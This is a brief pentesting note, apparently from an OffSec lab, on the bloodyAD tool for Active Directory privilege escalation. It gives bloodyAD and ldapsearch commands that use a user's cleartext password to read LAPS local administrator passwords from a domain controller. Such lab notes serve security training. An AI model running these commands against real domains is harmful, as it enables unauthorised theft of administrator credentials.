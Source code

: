  https://www.kali.org/tools/bloodyad/
 
bloodyAD can perform specific LDAP calls to a domain controller in order to perform AD privesc. It supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc.

Exchange of sensitive information without LDAPS is supported. It is also designed to be used transparently with a SOCKS proxy.

```bash
bloodyAD --host 192.168.157.122 -d hutch.offsec -u fmcsorley -p CrabSharkJellyfish192 get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```
or 

ldapsearch -x -H ldap://192.168.192.122 -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
